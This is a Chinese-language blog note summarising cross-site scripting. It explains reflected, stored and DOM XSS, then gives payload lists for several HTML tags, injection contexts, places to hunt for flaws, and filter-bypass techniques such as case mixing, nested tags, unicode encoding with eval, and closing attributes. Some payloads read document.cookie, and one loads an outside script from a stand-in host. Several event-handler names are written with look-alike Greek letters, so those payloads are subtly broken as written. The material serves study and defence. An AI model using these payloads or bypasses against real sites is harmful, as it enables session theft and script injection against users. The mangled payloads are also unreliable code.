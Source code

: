 ```yaml
---
title: 随记(23)—XSS攻击
date: 2021-03-30
author: LM
---
```


> 参考原文：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)

## 1.简单介绍

HTML注入与XSS攻击简单来说就是当用户在输入框输入内容，后台对输入内容不做处理直接添加入页面。此时，**用户就可以刻意填写HTML、JavaScript脚本来作为文本输入**，这样这个页面就会出现一些用户加入的东西了，这是一种脚本注入。

```html
<a href=http://www.baidu.com>Click Me</a>
```

当然有些稍微有点脑子的网站会屏蔽 script 标签的输入，但是我们大可以利用类似于以下的语句注入脚本。

```html
<img src=1 οnerrοr=alert(1) />
<scr<script>ipt>
```

因此，相比起过滤script标签，建议采用更加高明的过滤'<''>''&'等符号。事实上html定义了几个特定符号专门用来表示这几个符号的，比如用&amp来代替&符号等。

## 2.XSS

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

XSS攻击主要分为以下三种

- 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie
- 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息
- DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。可能触发DOM型XSS的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法进行赋值或其他操作

## 3.XSS的攻击载荷

以下所有标签的 > 都可以用 // 代替

### script标签

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### svg标签

```html
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

### img标签

```html
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
```

### body标签

```html
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

### video标签

```html
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

### style标签

```html
<style οnlοad=alert(1)></style>
```

## 4.XSS可以插在哪里？

- 用户输入作为script标签内容
- 用户输入作为HTML注释内容
- 用户输入作为HTML标签的属性名
- 用户输入作为HTML标签的属性值
- 用户输入作为HTML标签的名字
- 直接插入到CSS里
- 最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

```html
<!-- 用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过-->
<!-- --><script>alert('hack')</script><!-- -->
<!-- 用户输入作为标签属性名，导致攻击者可以进行闭合绕过-->
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>
<!-- 用户输入作为标签属性值，导致攻击者可以进行闭合绕过-->
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>
<!-- 用户输入作为标签名，导致攻击者可以进行闭合绕过-->
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />
<!-- 用户输入作为CSS内容，导致攻击者可以进行闭合绕过-->
<style>用户输入<style>
<style> </style><script>alert('hack')</script><style> </style>
```

## 5.XSS漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 6.XSS的简单过滤和绕过

### a.区分大小写过滤标签

```html
<!-- 可以使用大小写绕过-->
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

```html
<!-- 可以使用嵌套的script标签绕过 --> 
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

```html
<!-- 虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。onerror事件是专门针对js出错的，标签闭合性被破坏会触发这个事件。--> 
 <img src=1 οnerrοr=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

```html
<!-- 有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。例如alert(1)编码过后就是 \u0061\u006c\u0065\u0072\u0074(1)--> 
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

```html
<!-- 有些注入点出现在链接或属性中，此时可以使用"主动的闭合标签，实现代码的注入-->
";alert("I am coming again~");"
```

